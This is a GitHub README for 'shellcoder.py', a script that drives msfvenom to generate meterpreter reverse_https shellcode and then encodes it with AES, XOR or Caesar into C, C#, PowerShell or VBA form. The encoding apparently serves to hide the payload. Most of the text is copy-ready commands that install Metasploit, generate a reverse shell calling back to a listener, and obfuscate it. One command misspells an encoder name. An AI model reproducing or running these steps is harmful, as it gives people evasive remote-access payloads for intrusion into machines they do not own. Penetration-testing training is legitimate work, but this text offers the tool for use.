 # shellcoder.py
A tool I wrote to ease the process of shellcode generation and obfuscation!

## Getting Started
This tool has some dependencies that may need to be installed. It was written and tested on Kali Linux 2021.4 so most of the dependencies are already pre-installed. In the event you are using an older version or non-Kali install, you can get started by running the following commands:
```bash
sudo python3 -m pip install -r requirements.txt
```
This tool is depenedent on msfvenom to generate raw shellcode files. If the Metasploit Framework is not installed on your system, here are the commands you will need to run to install it:
```bash
wget http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
```
```bash
sudo chmod +x ./metasploit-latest-linux-x64-installer.run
```
```bash
sudo ./metasploit-latest-linux-x64-installer.run
```
## Generating shellcode
One of the main reasons I developed this tool was to automate the process of generating shellcode for both Windows and Linux using msfvenom. To generate shellcode you can run shellcoder.py with the -l flag to set the listening host, the -p flag to set the listening port, the -t flag to set the payload type, and most importantly the -g or --generate flag. Alternatively, you can can just run shellcoder.py with the -g or --generate flag and it will use the following default values:

- PAYLOAD=windows/x64/meterpreter/reverse_https
- LHOST=tun0
- LPORT=443
- OUTFILE=/tmp/raw_sc

Some example commands that can be used to generate shellcode with shellcoder.py are as follows:
```bash
python3 shellcoder.py -l tun0 -p 443 -t windows/x64/meterpreter/reverse_https -o raw_sc --generate
```

<p align="center">
<a href="/img/gen1.png"><img src="/img/gen1.png"></a>
 </p>
 
```bash
python3 shellcoder.py --generate
```

<p align="center">
<a href="/img/gen2.png"><img src="/img/gen2.png"></a>
 </p>

 ## Encoding shellcode
 There are a couple options to can use to encode shellcode in different formats. Here is a list of formats the shellcode can be encoded with:

- clang_aes
- clang_caesar
- clang_xor
- csharp_aes
- csharp_caesar
- csharp_xor
- ps1_aes
- ps1_caesar
- ps1_xor
- vba_aes
- vba_caesar
- vba_xor

To generate shellcode with shellcoder.py, you can supply the -e flag with the encoder type. Optionally you can specify the input and output files with the -i and -o flags, respectively. If you do not specify an input file, shellcoder.py will look for the raw shellcode file located at /tmp/raw_sc. Here are some example commands that can be used to encode your shellcode:
```bash
python3 shellcoder.py -e chsarp_xor -i raw_sc -o enc_sc.txt
```

<p align="center">
<a href="/img/enc1.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor -i raw_sc
 ```
 
 <p align="center">
<a href="/img/enc2.png"><img src="/img/enc2.png"></a>
 </p>
 
 ```bash
python3 shellcoder.py -e csharp_xor
 ```

 These are just a few examples of how raw shellcode files can be encoded. You can see the help page for more options with the following command:
```bash
python3 shellcoder.py -h
```

<p align="center">
<a href="/img/help.png"><img src="/img/help.png"></a>
 </p>
